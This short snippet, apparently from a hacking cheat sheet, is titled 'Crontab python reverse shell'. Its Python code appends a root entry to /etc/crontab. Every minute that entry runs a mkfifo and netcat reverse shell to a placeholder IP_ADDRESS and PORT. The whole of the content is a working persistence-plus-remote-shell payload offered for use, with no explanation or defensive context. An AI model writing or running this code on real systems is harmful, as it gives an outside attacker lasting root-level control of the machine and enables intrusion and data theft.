 # Crontab python reverse shell

    shell = '''
    * * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
    IP_ADDRESS PORT >/tmp/f
    '''
    f = open('/etc/crontab', 'a')
    f.write(shell)
    f.close()
